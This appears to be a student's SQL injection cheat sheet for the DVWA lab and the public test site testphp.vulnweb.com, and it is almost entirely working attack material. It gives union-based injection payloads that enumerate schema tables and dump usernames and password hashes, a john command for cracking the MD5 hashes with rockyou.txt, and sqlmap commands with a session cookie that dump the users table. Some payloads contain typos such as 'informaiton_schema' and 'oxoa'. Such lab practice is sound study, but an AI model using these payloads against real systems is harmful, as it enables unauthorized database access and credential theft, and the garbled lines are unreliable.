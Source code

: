sql injeciton low vulnerabilities: - 

1
1'
%
%' or '0'='0
%' or '0'='0' union select * from password #
%' or '0'='0' union select  COLUMN_NAME from information_schema.COLUMNS #
%' or '0'='0' union select TABLE_NAME, COLUMN_NAME from information_schema.COLUMNS #
%' or '0'='0' union select TABLE_NAME, COLUMN_NAME from information_schema.COLUMNS where TABLE_NAME = 'users' #
%' or '0'='0' union select user, password from dvwa.users #

after observ the md5 password now decode the password using john 
john --wordlist=rockyou.txt --format=Raw-MD5 hashes.txt



method 2 low sql injeciton : - 

1
1'  -- if you show sql syntax error that's mean that is a sql injeciton vulnerability.
SELECT first_name, last_name FROM users WHERE user_id = ''';
%' or '0' = '0
SELECT first_name, last_name FROM users WHERE user_id = '%' or '0' = '0';
%' or 0=0 union select null, version() #
SELECT first_name, last_name FROM users WHERE user_id = '%' or 0=0 union select null, version() #';
'% or 0=0 union select null, version() #
%' UNION SELECT null, column_name FROM INFORMATION_SCHEMA.columns WHERE table_name='users'#
%' UNION SELECT null, concat(user,0x0a,password) FROM users#

using sqlmap : - 

http://172.17.0.2/vulnerabilities/sqli/?id=1&Submit=Submit#
sqlmap -u 'http://172.17.0.2/vulnerabilities/sqli/?id=1&Submit=Submit#' --cookie "PHPSESSID=qehkul5i897soktsniinft21s3; security=low" --dbs
sqlmap -u 'http://172.17.0.2/vulnerabilities/sqli/?id=1&Submit=Submit#' --cookie "PHPSESSID=qehkul5i897soktsniinft21s3; security=low" -D dvwa --tables
sqlmap -u 'http://172.17.0.2/vulnerabilities/sqli/?id=1&Submit=Submit#' --cookie "PHPSESSID=qehkul5i897soktsniinft21s3; security=low" -D dvwa -T users --columns
sqlmap -u 'http://172.17.0.2/vulnerabilities/sqli/?id=1&Submit=Submit#' --c
ookie "PHPSESSID=qehkul5i897soktsniinft21s3; security=low" -D dvwa -T users --dump


example testphp.vulnweb.com : - 

if you show the vulneable parameter like ?cat=1
http://testphp.vulnweb.com/list-products.php?cat=1'    --- show sql syntax error
						       --- add ''' 3 coat's
						       ---"cat=1"' query unbalancing error
						       ---"select * from t"' if you add 3 coats then query is unbalancing
http://testphp.vulnweb.com/list-products.php?cat=1 order by 1 --+
http://testphp.vulnweb.com/list-products.php?cat=1 order by 2 --+
http://testphp.vulnweb.com/list-products.php?cat=1 order by 3 --+  -- now check no of columns ex: 50

union query : - 
http://testphp.vulnweb.com/list-products.php?cat=1 union select 1,2,3,4,5,6,7,8,9,10,11--+
http://testphp.vulnweb.com/list-products.php?cat=1 union select 1,2,3,4,5,6,database(),8,version(),10,11--+
http://testphp.vulnweb.com/list-products.php?cat=1 union select 1,table_name,3,4,5,6,7,8,9,10,11 from informaiton_schema.tables--+
http://testphp.vulnweb.com/list-products.php?cat=1 union select 1,table_name,3,4,5,6,7,8,9,10,11 from information_schema.tables where table_schema="acuart"--+
http://testphp.vulnweb.com/list-products.php?cat=1 union select 1,column_name,3,4,5,6,7,8,9,10,11 from information_schema.columns where table_name='users'--+
http://testphp.vulnweb.com/list-products.php?cat=1 union select 1,group_concat(uname,oxoa,pass,"",cc)3,4,5,6,7,8,9,10,11 from users--+
